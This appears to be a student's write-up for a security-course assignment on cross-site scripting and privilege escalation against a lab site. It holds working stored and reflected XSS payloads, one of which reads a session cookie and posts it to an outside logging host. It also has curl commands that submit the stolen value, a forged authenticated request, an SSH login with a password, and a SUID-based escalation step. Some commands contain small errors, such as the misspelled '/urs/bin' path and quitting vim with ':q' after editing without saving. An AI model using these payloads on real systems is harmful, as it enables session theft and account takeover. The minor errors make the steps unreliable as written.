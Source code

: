 # Assignment 4 - Cross-Site Scripting (XSS)
## Part A. Stored XSS
Send a `GET` request to `/plants/shareall` using XSS without attacking yourself. The payload:

```html
<script>
function readCookie(name) {
    var nameEQ = name + "=";
    var ca = document.cookie.split(';');
    for (var i = 0; i < ca.length; i++) {
        var c = ca[i];
        while (c.charAt(0) == ' ') c = c.substring(1, c.length);
        if (c.indexOf(nameEQ) == 0) return c.substring(nameEQ.length, c.length);
    }
    return null;
}
if (readCookie("userrand")!="b9f6f3e2da30adaaedba6e40c1fb6cb0"){
    $.get("/plants/shareall");
};
</script>
```

- https://stackoverflow.com/a/1599291/5433224


## Part B. Reflected XSS
`http://potplants1.vikaa.fi:36932/<exploit>` where `<exploit>` is:

```html
<script>
function readCookie(name) {
    var nameEQ = name + "=";
    var ca = document.cookie.split(';');
    for (var i = 0; i < ca.length; i++) {
        var c = ca[i];
        while (c.charAt(0) == ' ') c = c.substring(1, c.length);
        if (c.indexOf(nameEQ) == 0) return c.substring(nameEQ.length, c.length);
    }
    return null;
}
var cookie = readCookie("userrand");
$.post("https://infosec1.vikaa.fi/logs", {"key": "itsme5932", "value": cookie})
</script>
```

```
http://potplants1.vikaa.fi:36932/<script> function readCookie(name) { var nameEQ = name + "="; var ca = document.cookie.split(';'); for (var i = 0; i < ca.length; i++) { var c = ca[i]; while (c.charAt(0) == ' ') c = c.substring(1, c.length); if (c.indexOf(nameEQ) == 0) return c.substring(nameEQ.length, c.length); } return null; } var cookie = readCookie("userrand"); $.post("https://infosec1.vikaa.fi/logs", {"key": "itsme5932", "value": cookie}) </script>
```

Submit data
```
curl -d '{"key": "itsme5932", "value": "b8915d46adab62eb0fd12"}' https://infosec1.vikaa.fi/logs
```

Retvieve data
```
curl https://infosec1.vikaa.fi/logs/itsme5932
```

```js
{"name": "I was hacked", "color": "red", "planttype": "plant", "potsize": "1", "shared": "yes"}
```

```bash
curl -X POST -H 'Content-Type: application/json' --cookie "c5496084520631fc21bd99691b60ef12" -d '{"name": "I was hacked", "color": "red", "planttype": "plant", "potsize": "1", "shared": "yes", "_csrf": "vCBhHTQY-jNZiMl7kU_4enF1PqpUtpx1a1WI"}' http://potplants1.vikaa.fi:36932/plants/add
```

- https://en.wikipedia.org/wiki/Session_hijacking
- https://davidwalsh.name/curl-post-file


## Part C. Priviledge Escalation
Connect to the ssh server as `cloud-user knEeGPyr`.
```bash
ssh cloud-user@infosec1.vikaa.fi -p 36735
```

Find executables that have SUID bit set

```
find / -perm -u=s -type f 2>/dev/null
```

`vim.basic` seems to have SUID bit set. Lets use it to write the file:
```bash
/urs/bin/vim.basic /home/admin/i_was_hacked.txt
```

In insert mode `i` write `<student_number>` then escape `esc` and quit `:q`.

- https://payatu.com/guide-linux-privilege-escalation/
